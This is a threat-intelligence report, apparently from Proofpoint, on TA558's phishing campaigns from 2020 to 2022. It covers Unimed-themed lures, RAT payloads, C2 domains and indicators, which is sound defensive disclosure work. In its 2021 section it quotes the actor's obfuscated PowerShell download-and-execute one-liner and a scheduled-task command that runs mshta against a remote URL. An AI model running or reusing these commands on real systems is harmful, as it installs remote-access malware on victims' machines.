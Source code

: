 Figure 4: Example TA558 email from 2020
The message contained a PowerPoint attachment that used template injection techniques and VBA macros which, if enabled, executed a PowerShell script to download a VBS payload from an actor-controlled domain. The VBS script in turn downloaded and executed Revenge RAT.

Figure 5: 2020 attack path example
TA558 was more active in 2020 than previous years and 2021, with 74 campaigns identified. 2018, 2019, and 2021 had 9, 70, and 18 total campaigns, respectively. So far in 2022, Proofpoint analysts have observed 51 TA558 campaigns. 

Figure 6: Total number of TA558 campaigns over time
2021
In 2021, this actor continued to leverage emails with Office documents containing macros or Office exploits (e.g. CVE-2017-8570) to download and install malware. Its most consistently used malware payloads included vjw0rm, njRAT, Revenge RAT, Loda, and AsyncRAT. 
Additionally, this group started to include more elaborate attack chains in 2021. For example, introducing more helper scripts and delivery mechanisms such as embedded Office documents within MSG files.
In this example 2021 campaign, emails purported to be, e.g.:
From: Financeiro UNIMED <financeiro@unimed-corporated[.]com>
Subject: Reserva
Replyto: cdt[name]cdt@gmail[.]com
Attachment: OficioCircularencaminhadoaoSetorFinanceiroUNIMED.docx
SHA256: 2f0f99cbac828092c0ec23e12ecb44cbf53f5a671a80842a2447e6114e4f6979
Emails masqueraded as Unimed, a Brazilian medical work cooperative and health insurance operator. These messages contained Microsoft Word attachments with macros which, if enabled, invoked a series of scripts to ultimately download and execute AsyncRAT. 

Figure 7: Example TA558 email from 2021
Of note is the repeat use of the string “CDT” contained the replyto email address and C2 domain names.
AsyncRAT C2 domains: 
warzonecdt[.]duckdns[.]org 
cdt2021.zapto[.]org
Example PowerShell execution to download and execute AsyncRAT:
$NOTHING = '(Ne<^^>t.We'.Replace('<^^>','w-Object
Ne');$alosh='bC||||||!@!@nlo'.Replace('||||||!@!@','lient).Dow'); $Dont='adString(''hxxps[:]//brasilnativopousada[.]com[.]br/Final.txt'')
';$YOUTUBE=IEX ($NOTHING,$alosh,$Dont -Join '')|IEX
Persistence was achieved through a scheduled task masquerading as a Spotify service.

schtasks /create /sc MINUTE /mo 1 0 /tn "Spotfy" /tr
 "\"%windir%\system32\mshta.exe\"hxxps[:]//www[.]unimed-
corporated[.]com/microsoft.txt" /F
This was the actor’s least active year. Proofpoint observed just 18 campaigns conducted by TA558 in 2021.
2022
In 2022, campaign tempo increased significantly. Campaigns delivered a mixture of malware such as, Loda, Revenge RAT, and AsyncRAT. This actor used a variety of delivery mechanisms including URLs, RAR attachments, ISO attachments, and Office documents.
TA558 followed the trend of many threat actors in 2022 and began using container files such as RAR and ISO attachments instead of macro-enabled Office documents. This is likely due to Microsoft’s announcements in late 2021 and early 2022 about disabling macros by default in Office products, which caused a shift across the threat landscape of actors adopting new filetypes to deliver payloads.
Additionally, TA558 began using URLs more frequently in 2022. TA558 conducted 27 campaigns with URLs in 2022, compared to just five campaigns total from 2018 through 2021. Typically, URLs led to container files such as ISOs or zip files containing executables.
